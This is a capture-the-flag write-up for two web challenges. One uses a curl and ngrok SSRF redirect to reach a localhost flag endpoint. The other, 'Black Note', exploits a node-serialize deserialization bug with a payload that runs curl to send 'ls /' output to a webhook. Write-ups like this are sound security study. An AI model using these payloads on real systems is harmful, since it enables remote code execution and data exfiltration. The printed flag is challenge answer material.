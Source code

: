 test">"+document.location=http://l0calhost.fbi.com/flag & OR test">"+document.locationhttp://l0calhost.fbi.com:8080/flag 
this way will success and print the flag in same page 
scound way is : 
inject using curl & ngrok 

    curl -X POST --url "https://blackhat3-12467700c2749bd40efb1308b4b070f9-0.chals.bh.ctf.sa/api/generate" -F search_engine=88fc-113-173-115-76.ngrok.io\?nani= -F query=123

so :
88fc-113-173-115-76.ngrok.io points to my local server, that will sends a 302 response back to l0calhost.localtest.me:8080/flag and also success
with both ways we can get the flag 
flag :   BlackHatMEA{957:22:0907a3bda393a68b4fde6e35b2b599f9d67c3b99}

# web challenge - Black Note
 ![enter image description here](https://i.imgur.com/FvzHKZi.png)

once we open challenge we gotta this 

![enter image description here](https://i.imgur.com/hrDqhhG.png)

Sign up with random creds , Fuzzing ,cheking source code as usal , when i loged in i can see another page


![enter image description here](https://i.imgur.com/PSXWtyK.png)

typed any thing and captured request 


![enter image description here](https://i.imgur.com/nbJwoBD.png)

yes i noticed notes cookie is base64 lets decode it  `>>{"notes":{"0":Sample Note ","1":"hello word"}}`

seems intersting i start play with this notes untill i gotta error 

![enter image description here](https://i.imgur.com/X8tWyKE.png)

node-selalize >> this make us think about deserialization attack , i start searching in google and found article RCE in nodeJS via  deserialization attack
here is the link of article : 
[https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/]
cool lets start the exploite 
here is our payloed : 

    {"notes":{"0":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'curl <your webhook url> -d \\"ls=$(ls /)\\" /\', function(error, stdout, stderr) { console.log(stdout) });}()"}}

just we eant to pass our webhook url or any interaction server will work 
https://webhook.site/
After that we should decode payloed again and pass it in notes with webhook url and see if we gotta response or no 
![enter image description here](https://i.imgur.com/culCBDR.png)
